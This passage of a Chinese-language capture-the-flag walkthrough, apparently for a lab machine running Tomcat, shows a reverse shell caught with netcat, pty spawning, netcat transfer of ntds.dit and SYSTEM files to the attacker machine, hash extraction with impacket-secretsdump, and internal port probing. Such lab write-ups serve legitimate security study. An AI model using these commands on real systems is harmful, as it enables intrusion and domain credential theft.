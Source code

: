 `War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying
成功上传——本地nc监听80端口`nc -lnvp 80`——浏览器访问payload地址，即可获得一个shell。

 `python -c 'import pty;pty.spawn("/bin/bash")'`

## 提权
经过上面步骤，我们获得了一个tomcat用户权限的shell，可以看到有一些文件是不允许访问的。接下来看看如何获取root权限。

![](https://github.com/Whale3070/whale3070.github.io/blob/master/_pictures/kotarak.resource/8.PNG)

在用户家目录下，发现一个ntds.dit文件。以前没做过域渗透，(⊙﹏⊙)稍微去了解了下，ntds.dit即目录数据库，用于windows域。

将那两个文件用nc发送到攻击机本地
```
kali:   nc -lvnp 443 > SYSTEM
shell:  nc kali-ip 443 <  *.bin
kali:   file
```
同样的方式，把另一个文件用ntds.dit作为文件名传送到本地
## Tool Introduction
简而言之，下面的工具就是用来提取目录数据库中保存的hash的。
[video:提取hash](https://blog.didierstevens.com/2016/07/30/video-ntds-dit-extract-hashes-with-secretsdump-py/)
>impacket-secretsdump -h
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL 

注意，这个工具用到了两个文件，即kali接收到的SYSTEM和ntds.dit。运行上面的命令，于是获得了hash。

- Trying
`arp -a` 查看本地arp缓存表。
显示局域网ip有两个，`10.10.10.2` `10.10.3.133`
shell终端运行nmap，显示不能用，运行nc：
`nc -v 10.10.3.133 445`
`nc -v 10.10.3.133 3389`
`nc -v 10.10.3.133 22`
只有22端口显示succeeded。
这一步骤为了确定ip133的是什么机器，显然是linux机器。
